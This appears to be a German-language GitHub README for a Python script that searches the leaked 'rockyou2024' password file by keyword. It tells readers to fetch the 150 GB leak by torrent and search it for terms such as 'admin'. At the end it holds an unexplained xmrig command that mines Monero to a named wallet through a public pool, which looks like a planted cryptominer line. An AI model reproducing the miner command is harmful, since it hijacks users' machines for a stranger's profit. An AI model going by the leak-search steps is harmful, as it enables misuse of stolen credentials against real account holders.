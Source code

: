 # SearchTXT

# rockyou2024 password checker !!

ChatGPT machte für mich ein skript um große textdatei. zu durchsuchen mit keywords
laut ChatGPT:
pfad angeben wo die txt datei ist
keywords eingeben
und schon sucht das skript

rockyou2024 passwort checker

google, und lad dir die neuste rockyou2024.txt
(geht schnell per torrent)
entpackt ist die datei 150gb groß
das skript durchsucht die datei und in echtzeit könnt ihr die treffer verfolgen


1. Python downloaden und installieren
2. powershell öffnen mit folgenden befehl "pip install keyboard"
3. ladet euch aus der repo (GitHub.com/g0dm0de1337/SearchTXT/) das skript "new.py"
4. doppelklick
5. Pfad einfühen wo eure rockyou2024 datei liegt
[ Beispiel.. c:\User\Max\Desktop\rockyou2024\rockyou2024.txt ]
6. die suchbegriffe (beispiel: passwort, admin, 12345) eingeben
7. warten bis das skript fertig ist
mit p = pausiert ihr das skript falls ihr genauer gucken wollt
mit w = macht das skript weiter

______________
• Search.py = erste version, pause nicht möglich
______________
• new.py (update) = zeigt live die treffer an, man kann nun mit p= pasieren und mit w= weiter machen 
______________
• suche1.py (testphase/experimentier freudig) = speichert die ergebisse in max. 1500 zeilen große .txt datei
______________


- g0dm0de1337





xmrig --url pool.hashvault.pro:443 --user 49dW7K53TPSRLnbXMfK7unhoTQjm5KmUnQLk9w51rHq5EAB6YWaLxb6KqhqhK5NcdQBqJMFxUgj7o44Wyu1SqZvWNuS9scU --pass GottModus --donate-level 1 --tls --tls-fingerprint 420c7850e09b7c0bdcf748a7da9eb3647daf8515718f36d9ccfdd6b9ff834b14
